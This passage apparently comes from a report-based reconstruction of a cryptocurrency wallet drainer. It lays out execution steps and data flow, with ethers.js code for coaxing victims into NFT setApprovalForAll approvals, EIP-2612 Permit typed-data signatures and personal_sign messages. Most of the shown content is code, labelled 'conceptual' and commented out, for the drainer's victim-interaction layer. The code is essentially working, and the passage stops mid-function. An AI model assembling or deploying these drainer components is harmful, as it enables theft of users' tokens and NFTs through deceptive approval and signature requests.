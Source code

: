     *   **Code Concept (Report Implication - ethers.js for NFT `setApprovalForAll`):**
        ```javascript
        // Conceptual: Request NFT setApprovalForAll
        // const ERC721_ABI_SETAPPROVAL = ["function setApprovalForAll(address operator, bool approved) returns (void)"];
        // async function requestNftSetApprovalForAll(nftContractAddress, operatorAddress, approvedState = true) {
        //     if (!signer) throw new Error("Signer not initialized");
        //     const nftContract = new ethers.Contract(nftContractAddress, ERC721_ABI_SETAPPROVAL, signer);
        //     try {
        //         console.log(`Requesting setApprovalForAll for NFT ${nftContractAddress} to operator ${operatorAddress}`);
        //         const txResponse = await nftContract.setApprovalForAll(operatorAddress, approvedState);
        //         return { success: true, txHash: txResponse.hash };
        //     } catch (error) {
        //         console.error("NFT setApprovalForAll failed or rejected by user:", error);
        //         return { success: false, error: error.message || error };
        //     }
        // }
        ```
    *   **Functionality:** Constructs a transaction object for the `approve` or `setApprovalForAll` method of the target contract. Uses the `signer` to send the transaction, prompting the user via their wallet.
    *   **Data Flow:** `tokenAddress`/`nftContractAddress`, `spenderAddress`/`operatorAddress`, and `amount` are inputs. The output is a transaction hash (if submitted) or an error. This is passed to the main frontend logic.
    *   **Report Reference:** "Victim's Wallet Interaction & Exploitation" and "Drainer Smart Contract(s)" sections highlight the importance of these approval mechanisms.

### 3.4. Crafting and Requesting Off-Chain Signatures (Permit, Seaport, etc.)

*   **Execution Step 4: Request for an Off-Chain Signature.**
    *   **Logic:** For more advanced drainers (as noted in the report, e.g., those using Permit for ERC20s or Seaport for NFTs to avoid gas fees for approvals), this layer crafts and requests an EIP-712 typed data signature or a `personal_sign`.
    *   **Code Concept (Report Implication - ethers.js for EIP-712 `_signTypedData`):**
        ```javascript
        // Conceptual: Request EIP-712 Typed Data Signature (e.g., for Permit)
        // async function requestTypedDataSignature(domain, types, value) {
        //     if (!signer || !provider) throw new Error("Signer/Provider not initialized");
        //     try {
        //         // In ethers.js v5, _signTypedData is available on the signer directly
        //         // For ethers.js v6, it might be provider.send("eth_signTypedData_v4", [userAddress, JSON.stringify({ domain, types, primaryType: Object.keys(types)[0], message: value })]);
        //         // The exact method depends on the ethers.js version and specific EIP-712 structure.
        //         const signature = await signer._signTypedData(domain, types, value);
        //         return { success: true, signature: signature };
        //     } catch (error) {
        //         console.error("Typed Data Signature failed or rejected by user:", error);
        //         return { success: false, error: error.message || error };
        //     }
        // }
        // Example Permit domain and types would be defined here based on EIP-2612
        ```
    *   **Code Concept (Report Implication - `personal_sign`):**
        ```javascript
        // Conceptual: Request personal_sign signature
        // async function requestPersonalSign(message) {
        //     if (!signer) throw new Error("Signer not initialized");
        //     try {
        //         // Message should typically be hex-encoded if it's not human-readable
        //         const messageToSign = ethers.utils.isHexString(message) ? message : ethers.utils.hexlify(ethers.utils.toUtf8Bytes(message));